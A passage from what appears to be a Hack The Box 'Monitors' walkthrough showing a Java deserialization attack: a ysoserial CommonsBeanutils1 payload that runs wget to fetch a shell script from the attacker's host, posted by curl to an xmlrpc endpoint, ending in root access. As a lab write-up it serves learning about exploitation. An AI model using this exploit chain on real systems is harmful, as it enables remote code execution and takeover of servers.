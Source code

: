 **Step 4:** Genrating Payload Using YsoSerial Jar

```java
┌─[R4hn1]─[10.10.14.12]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Monitors]
└────╼ # java -jar ysoserial.jar CommonsBeanutils1 "wget 10.10.14.12/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"
```

**Step 5:** Copy the Output of payload and add it to the curl command. [Replace (Add Your Payload Here Section) with your payload]

```bash
curl https://127.0.0.1:8888/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">Add your Payload Here</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```

**Step 6:** Execute Command

Okay so once we run the command we get a curl back.

![](Images/Pasted%20image%2020210628132349.png)

And once executed it we got a root

![](Images/Pasted%20image%2020210628132637.png)
